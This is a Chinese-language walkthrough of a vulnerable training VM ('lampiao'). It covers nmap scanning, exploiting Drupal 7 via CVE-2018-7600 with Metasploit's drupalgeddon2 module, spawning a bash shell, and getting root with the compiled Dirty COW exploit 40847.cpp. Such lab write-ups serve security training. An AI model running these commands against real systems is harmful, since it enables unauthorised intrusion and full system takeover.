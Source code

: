 # lampiao 靶机实验

<p align="center">
    <img src="http://p1.music.126.net/dbNvuphUc_mDSWLzjzT7fA==/5979144232442840.jpg?param=130y130" width="25%">
</p>

<p align="center">👴 Ahaha I'm hooked on a feeling,I'm high on believing.</p>
<p align="center"><a href="https://music.163.com/#/song?id=28876107"><font>《Hooked On A Feeling》</font></a> </p>
<p align="center">专辑：Guardians of the Galaxy: Awesome Mix Vol. 1</p>
<p align="center">歌手：Blue Swede</p>

> drupal7 cms远程代码执行漏洞（CVE-2018-7600）和脏牛提权。

[靶机下载地址]：(https://mega.nz/#!aG4AAaDB!CBLRRYQsAhTOyPJqyjC0Blr-weMH9QMdYbPfMj0LGeM)


在导入到 VMware 后 发现是个登录界面，在确认靶机 IP段后使用 `nmap` 对目标网段进行扫描

`nmap -T5 -v -f -sS -Pn -p- 192.168.91.0/24`

![](img/1.png)

访问80端口发现一个没用的静态页面，再访问1898端口，出现web页面

![](img/2.png)

进行目录扫描，发现  `robots.txt`

![](img/3.png)

使用用谷歌插件 `wappalyzer` 知道了这个web是用 `drupal7 cms`写的
![](img/4.png)

访问信息配置页面 `http://192.168.91.134:1898/CHANGELOG.txt`

![](img/5.png)

> 快进到 使用 CVE-2018-7600 版本命令执行漏洞

### CVE-2018-7600利用

进入msf，然后search搜索CVE-2018-7600
![](img/6.png)

```
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts IP
set rport 1898
run
```
![](img/7.png)

用python获取标准shell:
python shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


![](img/8.png)

去msf中查找对应的exp
```
searchsploit dirty


cp/usr/share/exploitdb/exploits/linux/local/40847.cpp /root/1.cpp

# 进入msf upload 1.cpp

g++ -Wall -pedantic -O2 -std=c++11 -pthread -o 40847 1.cpp -lutil
./40847
```
![](img/9.png)

获取目标 root 密码

ssh重新连接，用户为root，密码为 dirtyCowFun